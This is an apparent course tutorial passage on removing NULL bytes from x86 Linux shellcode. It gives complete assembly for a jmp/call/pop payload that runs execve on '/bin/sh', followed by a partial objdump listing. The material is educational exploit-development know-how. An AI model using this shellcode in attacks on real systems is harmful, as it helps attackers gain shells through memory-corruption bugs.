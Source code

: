 You can see where the NULL's come from. There are two big problems:

-   `push 0x0` : pushing null on the stack requires a null value in the
    bytes
-   `push e*x` : pushing a 4 byte register storing 1 byte of values
    require null bytes

To solve one of these problem, we need to create NULL bytes without
actually writing any NULL bytes. The most affective way to do this is
with xor. Recall that the xor of a value with itself is always zero. To
solve the other problem, we need to make sure we use BYTE PTR's instead
of DWORD PTR's, which means using the `al` `bl` `cl` and `dl` registers.
We can write our code like so.

``` asm

SECTION .text       ; Code section
        global _start   ; Make label available to linker

_start:             ; Standard ld entry point
    jmp  callback

dowork:


    pop esi         ; esi now holds address of "/bin/sh

    xor     eax,eax     ; zero out eax
    push    eax     ; args[1] - NULL
    push    esi     ; args[0] - "/bin/sh"

    xor edx,edx     ; Param #3 - NULL (zero out edx)
    mov ecx,esp     ; Param #2 - address of args array
    mov ebx,esi     ; Param #1 - "/bin/sh"
    mov al,0xb      ; System call number for execve (use al mov)
    int 0x80        ; Interrupt 80 hex - invoke system call


    xor ebx,ebx     ; Exit code, 0 = normal
    xor     eax,eax     ; zero eax
    mov al,1        ; System call number for exit
    int 0x80        ; Interrupt 80 hex - invoke system call

callback:
    call dowork    ; call pushes the next address onto stack,
               ; which is address of "/bin/sh" 
    db "/bin/sh",0 ;
```

And if we now look at the objdump, there is not a NULL to be found:

``` example
user@si485H-base:demo$ objdump -d -M intel execve_nonull

execve_nonull:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:   eb 17                   jmp    8048079 <callback>

08048062 <dowork>:
 8048062:   5e                      pop    esi
 8048063:   31 c0                   xor    eax,eax
 8048065:   50                      push   eax
```